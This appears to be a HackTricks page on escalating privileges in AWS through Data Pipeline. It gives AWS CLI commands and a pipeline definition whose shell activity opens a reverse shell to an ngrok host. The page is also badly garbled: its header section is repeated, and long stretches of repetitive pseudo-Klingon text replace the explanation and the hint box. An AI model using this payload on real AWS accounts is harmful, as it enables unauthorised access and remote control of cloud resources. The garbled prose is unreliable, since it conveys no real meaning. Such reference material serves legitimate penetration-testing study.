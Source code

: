# AWS - Datapipeline Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## datapipeline

For more info about datapipeline check:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

---

# AWS - Datapipeline Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## datapipeline

For more info about datapipeline check:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
**DaH jatlh:** pipeline qonwI'wI' jatlhlaHbe'chugh, jatlhlaHbe'chugh vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'e' vItlhutlhlaHbe'chugh 'ej vItlh
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Qapla'! **role** in **line 14, 15 and 27** vItlhutlh **datapipeline.amazonaws.com** lo'laHbe'chugh **role assumable** vItlhutlh **ec2.amazonaws.com with a EC2 profile instance** lo'laHbe'.

DaH jImej, EC2 instance vItlhutlh **role assumable** vItlhutlh **EC2 instance** (vaj vItlhutlh 'ej vItlhutlh) vItlhutlh (vaj vItlhutlh) vItlhutlh.
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
**ghItlh** **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

